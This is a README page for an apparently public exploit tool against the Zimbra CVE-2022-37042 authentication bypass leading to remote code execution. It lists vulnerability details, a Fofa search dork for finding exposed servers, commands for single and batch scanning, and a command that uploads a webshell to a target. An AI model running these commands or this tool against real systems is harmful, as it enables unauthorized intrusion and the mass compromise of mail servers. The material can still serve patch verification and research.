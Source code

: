 # CVE-2022-37042

CVE-2022-37042 Zimbra Auth Bypass leads to RCE

| Infos    | Value                                                              |
| -------- | -------------------------------------------------------------------|
| Username | [https://github.com/0xf4n9x](https://github.com/0xf4n9x) |
| Url      | [https://github.com/0xf4n9x/CVE-2022-37042](https://github.com/0xf4n9x/CVE-2022-37042)                                               |
| Stars    | 23                                                          |
| License  | No License                                                        |

<details>

<summary>Topic / Tags</summary>



</details>

## Readme

# CVE-2022-37042

## Usage

查看漏洞信息。

```bash
go run main.go -s

_______    ________    ___   ____ ___  ___       ______________  __ __ ___
/ ____/ |  / / ____/   |__ \ / __ \__ \|__ \     |__  /__  / __ \/ // /|__ \
/ /    | | / / __/________/ // / / /_/ /__/ /_____ /_ <  / / / / / // /___/ /
/ /___  | |/ / /__/_____/ __// /_/ / __// __/_____/__/ / / / /_/ /__  __/ __/
\____/  |___/_____/    /____/\____/____/____/    /____/ /_/\____/  /_/ /____/

							@_0xf4n9x_

[WRN] Use with caution. You are responsible for your actions.
[WRN] Developers assume no liability and are not responsible for any misuse or damage.

[INF] VulnInfo:
{
  "Name": "CVE-2022-37042 Zimbra Auth Bypass leads to RCE",
  "VulID": [
    "CVE-2022-37042"
  ],
  "Version": "1.0",
  "Author": "0xf9",
  "VulDate": "2022-10-07",
  "References": [
    "https://www.volexity.com/blog/2022/08/10/mass-exploitation-of-unauthenticated-zimbra-rce-cve-2022-27925/",
    "https://nvd.nist.gov/vuln/detail/CVE-2022-37042"
  ],
  "AppName": "Zimbra",
  "AppPowerLink": "https://www.zimbra.com/",
  "AppVersion": "Zimbra Collaboration Suite 8.8.15 and 9.0",
  "VulType": "RCE",
  "Description": "Zimbra Collaboration Suite (ZCS) 8.8.15 and 9.0 has mboximport functionality that receives a ZIP archive and extracts files from it. By bypassing authentication (i.e., not having an authtoken), an attacker can upload arbitrary files to the system, leading to directory traversal and remote code execution. NOTE: this issue exists because of an incomplete fix for CVE-2022-27925.",
  "Category": "REMOTE",
  "Dork": {
    "Fofa": "app=\"zimbra-邮件系统\" \u0026\u0026 (protocol=\"http\" || protocol=\"https\")",
    "Quake": "",
    "Zoomeye": "",
    "Shodan": ""
  }
}
```

对单个目标URL进行漏洞检测。

```bash
go run main.go -u http://example.com
```

```bash
echo 'http://example.com' | go run main.go
```

对多个目标进行批量漏洞验证。

```bash
go run main.go -l urls.txt
```

```bash
echo 'app="zimbra-邮件系统" && (protocol="http" || protocol="https")' | fofax -ffi -fs 500 | go run main.go
```

对单个目标进行漏洞利用，上传webshell文件。

```bash
go run main.go -u http://example.com -uf shell.jsp
```

## References

https://github.com/projectdiscovery/nuclei-templates/pull/5134

https://github.com/zer0yu



## Get the content

```
git clone https://github.com/0xf4n9x/CVE-2022-37042
cd CVE-2022-37042
```

{% embed url="https://github.com/0xf4n9x/CVE-2022-37042" %}

<figure><img src="https://avatars.githubusercontent.com/u/40891670?v=4" alt=""><figcaption><p>0xf4n9x</p></figcaption></figure>
